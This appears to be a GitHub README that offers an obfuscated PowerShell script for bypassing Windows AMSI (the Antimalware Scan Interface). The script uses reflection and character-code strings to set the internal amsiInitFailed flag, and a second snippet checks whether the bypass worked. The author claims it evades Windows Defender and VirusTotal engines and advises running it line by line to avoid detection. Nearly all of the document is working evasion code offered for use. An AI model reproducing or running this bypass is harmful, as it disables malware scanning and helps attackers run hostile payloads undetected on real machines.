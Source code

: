 # Bypass ASMI!

This is an advanced ASMI bypass that currently isn't picked up by Windows defender or any of the anti virus softwares on VirusTotal.

You should run this script line by line, don't just execute it .\pwn.ps1 it might get detected if you do that.

But just running it line by line is undetected currently.

It's bypassed ASMI on prolabs from HackTheBox and even on my personal computer.

```powershell
$e=[Ref].('Assem'+'bly').GetType(([string]::Join('', [char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))))
$n='Non'+'Public'
$s='Static'
$f=$e.GetField(([string]::Join('', [char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),($n+','+$s))
$t=[type[]]@([object],[bool])
$m=$f.GetType().GetMethod('Set'+'Value', $t)
$m.Invoke($f, @($null, $true))
```

# Check if it Worked!

This should return True if it worked and it'll return False if the bypass failed.

```powershell
$e=[Ref].Assembly.GetType(([string]::Join('',[char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))));
$f=$e.GetField(([string]::Join('',[char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),"NonPublic,Static");
$f.GetValue($null)
```

